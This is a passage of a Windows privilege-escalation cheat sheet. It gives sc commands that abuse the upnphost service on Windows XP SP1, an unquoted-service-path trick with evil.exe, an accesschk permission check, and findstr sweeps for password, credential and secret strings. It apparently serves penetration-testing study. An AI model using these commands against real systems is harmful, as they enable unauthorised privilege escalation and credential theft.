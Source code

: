 Windows XP SP1 has a known vulnerability in upnphost.

First start by making sure its dependency and service is running:

    sc config SSDPSRV start= auto
    net start SSDPSRV

Then change the executable path:

    sc config upnphost binpath= "<exploit-code>"
    sc config upnphost obj= ".\LocalSystem" password= ""
    sc qc upnphost

Then start the service:

    net start upnphost

If both `wmic` and `sc` are not available, use [accesschk](https://download.sysinternals.com/files/AccessChk.zip) (Link to AccessChk.zip !!!)

    accesschk.exe -uwcqv "Authenticated Users" * /accepteula

## Space in service path

If the above service search came up with a path such as:

    C:\Program Files\<service>\<file>.exe

This could allow replacement by an `evil.exe` file in:

    C:\Program.exe

## Start/Stop with denied permissions

If a service gives a permission denied to start or stop, 
[this may or may not be exploitable](http://woshub.com/set-permissions-on-windows-service/).

## Search files and registry

List current directory with metadata, system and data stream files:

    dir /s /q /R

Attempt to find password strings in common files:

    findstr /spin password *.txt
    findstr /spin password *.xml
    findstr /spin password *.config
    findstr /si password *.ini
    findstr /spin credentials *.txt
    findstr /spin credentials *.xml
    findstr /spin credentials *.config
    findstr /si credentials *.ini
    findstr /spin secret *.txt
    findstr /spin secret *.xml
    findstr /spin secret *.config
    findstr /si secret *.ini
